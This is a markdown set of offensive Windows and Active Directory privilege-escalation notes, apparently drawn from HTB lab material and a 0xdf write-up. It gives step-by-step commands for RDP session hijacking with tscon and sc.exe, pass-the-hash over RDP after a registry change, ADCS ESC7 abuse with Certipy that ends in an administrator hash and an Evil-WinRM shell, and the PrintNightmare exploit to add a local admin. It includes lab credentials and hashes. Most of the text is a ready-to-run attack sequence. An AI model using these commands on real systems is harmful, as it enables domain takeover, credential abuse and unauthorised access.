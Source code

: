 ## RDP Session Hijacking
Let's imagine we successfully gain access to a machine and have an account with local administrator privileges. If a user is connected via RDP to our compromised machine, we can hijack the user's remote desktop session to escalate our privileges and impersonate the account. In an Active Directory environment, this could result in us taking over a Domain Admin account or furthering our access within the domain.
```
PS C:\ query user
```
To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. It works by specifying which SESSION ID (4 for the lewen session in our example) we would like to connect to which session name (rdp-tcp#13, which is our current session). So, for example, the following command will open a new console as the specified SESSION_ID within our current RDP session:
```
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz. A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. We will use Microsoft sc.exe binary. First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.
```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
To run the command, we can start the sessionhijack service:
```
C:\htb> net start sessionhijack
```
Note: This method no longer works on Server 2019.
## Pass the Hash (PtH)
### Included in Windows Lateral Movement
```
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
There are a few caveats to this attack: `Account restrictions are preventing ...`
This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:
```
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

## If you have a session on a DC host machine
### ADCS
It’s worth checking Advice Directory Certificate Services (ADCS) as well, and that’s quick, so I’ll start there. This can be done by uploading Certify or remotely with Certipy. I find Certipy easier.
```
https://github.com/ly4k/Certipy
```
```
oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
```
ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
```
### ESC7
```
https://0xdf.gitlab.io/2024/03/16/htb-manager.html
```
#### Add Manage Certificates
ESC7 is when a user has either the “Manage CA” or “Manage Certificates” access rights on the certificate authority itself. Raven has ManageCa rights (shown in the output above).
The steps to exploit this are on the Certipy README.
First, I’ll need to use the Manage CA permission to give Raven the Manage Certificates permission:
```
oxdf@hacky$ certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
Now Raven shows up there where they didn’t before:
```
oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
#### Administrator Certificate
The first step is to request a certificate based on the Subordinate Certification Authority (SubCA) template provided by ADCS. The SubCA template serves as a predefined set of configurations and policies governing the issuance of certificates.
```
oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
```
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
```
This fails, but it saves the private key involved. Then, using the Manage CA and Manage Certificates privileges, I’ll use the ca subcommand to issue the request:
```
oxdf@hacky$ certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
Now, the issued certificate can be retrieved using the req command:
```
oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
```
[*] Rerieving certificate with ID 13          
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'                     
[*] Saved certificate and private key to 'administrator.pfx'
```
With this certificate as the administrator user, the easiest way to get a shell is to use it to get the NTLM hash for the user with the auth command. This requires the VM and target times to be in sync, with otherwise leads to this failure:
```
oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip manager.htb
```
I’ll use ntpdate to sync my VM’s time to Manager’s:
```
oxdf@hacky$ sudo ntpdate 10.10.11.236
```
```
oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 
```
With the hash, I can get a shell as administrator using Evil-WinRM:
```
oxdf@hacky$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```
# Domain Controllers, Windows 7 and 10
## CVE-2021-1675/CVE-2021-34527 PrintNightmar
```
https://github.com/cube0x0/CVE-2021-1675
```
```
https://github.com/calebstewart/CVE-2021-1675
```
1. Checking for Spooler Service
```
PS C:\htb> ls \\localhost\pipe\spoolss
```
2. If it is not running, we will receive a "path does not exist" error.
3. bypassing the execution policy on the target host
```
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process
```
4. Adding Local Admin with PrintNightmare PowerShell PoC
```
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
```
```
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```
5. Confirming New Admin User
```
net user hacker
```
⇒ You have to login as the user hacker in order to gave Administrator privileges and run a cmd as Administrator